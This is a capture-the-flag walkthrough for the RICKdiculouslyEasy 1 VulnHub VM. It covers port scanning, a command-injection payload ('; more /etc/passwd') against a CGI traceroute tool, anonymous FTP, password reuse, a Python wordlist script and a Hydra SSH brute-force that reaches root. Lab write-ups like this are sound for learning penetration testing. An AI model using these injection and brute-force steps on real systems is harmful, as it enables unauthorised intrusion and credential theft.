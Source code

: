 ## RICKdiculouslyEasy 1 VulnHub VM walkthrough

RICKdiculouslyEasy 1 by https://twitter.com/sayli_ambure

Link: https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/

```
This is a fedora server vm, created with virtualbox.
It is a very simple Rick and Morty themed boot to root.
There are 130 points worth of flags available (each flag has its points recorded with it), you should also get root.
It's designed to be a beginner ctf, if you're new to pen testing, check it out!
```

## Solution

#### 1. Sudo Netdiscover
![](Assets/1.PNG)
> IP address: 192.168.1.10

#### 2. Port scan: Nmap -sC -sV -Pn -A -p- 192.168.1.10
![](Assets/2.PNG)
![](Assets/2.1.PNG)
> 21 -> ftp -> vsftpd 3.0.3 -> anonymous

> 22 -> ssh

> 80 -> Apache httpd 2.4.27

> 9090 -> Cockpit webservice
  
> 13337 -> unknown
  
> flag (10 pt) => total 10 points
  
> 22222 -> ssh -> OpenSSH 7.5 (protocol 2.0)
  
> 60000 > unknown

#### 3. Nikto: Nikto -h 192.168.1.10
![](Assets/3.PNG)
> Passwords/ directory

> Icons/ directory

#### 4. Browser > http://192.168.1.10/passwords/
![](Assets/04.PNG)
> FLAG.txt

> passwords.html

#### 5. Browser > http://192.168.1.10/passwords/FLAG.txt
![](Assets/4.PNG)
> Got Flag (10 pt) = total points 20

#### 6. Browser > http://192.168.1.10/passwords.html page source code
![](Assets/6.PNG)
> password -> winter

#### 7. Browser > http://192.168.1.10/icons/
![](Assets/7.PNG)
> nothing special other than directory listing

#### 8. Browser > http://192.168.1.10/robots.txt
![](Assets/11.PNG)
> /cgi-bin/root_shell.cgi

> /cgi-bin/tracertool.cgi

#### 9. Browser > view-source:http://192.168.1.10/cgi-bin/root_shell.cgi
![](Assets/12.PNG)
> nothing useful

#### 10. Browser > http://192.168.1.10/cgi-bin/tracertool.cgi
![](Assets/13.PNG)
![](Assets/14.PNG)
> Vulnerable to command injection
![](Assets/15.PNG)
> cat command doesn't work. Can use 'more', 'less','head' or 'tail' instead

#### 11. Payload > ; more /etc/passwd
![](Assets/16.PNG)
> Note users 'morty', 'ricksanchez' and 'summer'

#### 12. Ftp 192.168.1.10 > anonymous:anonymous 
![](Assets/8.PNG)
> logged in
![](Assets/9.PNG)
> ftp://192.168.1.10 -> Flag.txt (10 pt) => total 30 points

#### 13. ssh 192.168.1.10 22
![](Assets/17.PNG)
> Not accessible

#### 14. Browser > http://192.168.1.10:9090
![](Assets/18.PNG)
> Got flag (10 pt) => total 40 points

#### 15. Try winter password for users found in step 11 via SSH on 22222 port
![](Assets/19.PNG)
> Didn't work

![](Assets/20.PNG)
> Worked for user 'Summer'

> Got flag (10 pt) => total 50 points
![](Assets/21.PNG)
> password for unzipping journal.txt.zip is in safe_password.jpg
![](Assets/22.PNG)
> Pull jpg file in host machine
![](Assets/23.PNG)
> Got safe password
![](Assets/24.PNG)
> Got Flag (20 pt) => total 70 points
![](Assets/25.PNG)
![](Assets/26.PNG)
> Used flag in journal.txt as argument for safe

> Got next flag (20 pt) => total 90 points

> Got Pattern for RickSanchez password

#### 16. Create python script for all possible password combinations using the clue to feed Hydra:
```
def main():
    LETTERS = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
    DIGITS = '0123456789'
    BAND_WORDS = ['The', 'Flesh', 'Curtains']
    with open('rickpwd.txt', 'w') as f:
        for letter in LETTERS:
            for digit in DIGITS:
                for word in BAND_WORDS:
                    f.write('{}{}{}\n'.format(letter, digit, word))
        f.flush()
if __name__ == '__main__':
    main()
```
> rickpwd.txt created

#### 17. Hydra -l RickSanchez -P rickpwd.txt 192.168.1.10 ssh -s 22222
![](Assets/27.PNG)
> Password for RickSanchez user > P7Curtains

#### 18. ssh RickSanchez@192.168.1.10 -p 22222
![](Assets/28.PNG)
![](Assets/29.PNG)
> Got root and Flag (30 pt) => total 120 points

#### 19. Analyzing remaining ports: telnet 192.168.1.10 13337
![](Assets/30.PNG)
> Flag already found

#### 20. nc 192.168.1.10 60000
![](Assets/31.PNG)
> Got Flag (10 pt) => total 130 points

> Got all 130/130 points and owned root.
